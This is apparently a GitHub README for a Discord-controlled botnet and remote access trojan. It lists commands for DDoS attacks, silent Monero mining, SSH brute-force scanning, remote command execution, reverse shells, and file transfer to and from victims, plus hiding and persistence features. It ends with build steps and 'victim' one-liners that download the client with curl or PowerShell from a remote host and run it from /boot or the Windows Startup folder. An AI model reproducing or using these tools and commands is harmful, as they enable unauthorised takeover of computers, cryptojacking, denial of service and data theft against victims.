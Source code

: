 # Discord.py BotNet
![image](https://user-images.githubusercontent.com/104208624/203850203-55e89e04-0f26-4d3c-b87f-e9d8be7ef81f.png)

Need help? https://discord.gg/vCdPTjD6rZ

# Developers
me: batu.sh#9675

bnt: @udbnt

# Bot Commands

* !sessions                              (List open sessions)
* !check                                 (Check miner & ddos status)
* !updatelinux < LINK >                  (Update RAT on linux platforms) (input Client link)
* !updatewin < LINK >                    (Update RAT on windows platforms) (input Client.exe link)
* !ddos < IP >                           (Start DDoS Attack)
* !stopddos                              (Stop DDoS)
* !miner < WALLET >                      (Start slient XMR Crypto Miner CPU + AMD/INTEL GPU's)
* !stopminer                             (Stop miner)
* !zmap                                  (ZMap subnet scan) (Bruteforce ip addresses: https://github.com/bntr00t/sshb)

# Self Commands

* !info.< HOSTNAME >@< IP >                      (Send IP Information)
* !shell.< HOSTNAME >@< IP > < CMD >             (Run command)
* !revshell.< HOSTNAME >@< IP > < IP > < PORT >  (Reverse shell)
* !download.< HOSTNAME >@< IP > < URL > < NAME > (Download file to victim)
* !upload.< HOSTNAME >@< IP > < PATH >           (Upload file to bot)
* !nmap.< HOSTNAME >@< IP >                      (Nmap vuln scan)

# Features
* Hidden (Works in /tmp, %temp%)
* Persistence (Copying to /boot, shell:startup)
* Supports Linux and Windows platforms
* DDoS attack uses "storm" script
* Mining uses "xmrig"

# Soon
* Web automation to provide bots
* Discord botot status Examle= bots: 100
* !webcampic
* ?

# Installation and Build
1- "https://tinyurl.com/HowToCreateDiscordBot"

2- git clone https://github.com/rxu7s/pBot.git

3- cd pBot

4- "Edit token and channel id on Client.py"

5- pyinstaller --onefile --noconsole Client.py

# Linux victim
cd /boot; apt-get update -y; apt-get install curl -y; [ -f "Client" ] && rm Client; curl -O Client "https://raw.githubusercontent.com/NAME/NAME/main/NAME"; chmod 777 Client; ./Client

# Windows victim
cd "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup" & if exist Client.exe del Client.exe & powershell -command Invoke-WebRequest https://github.com/NAME/NAME/raw/main/NAME.exe -OutFile Client.exe & Client.exe
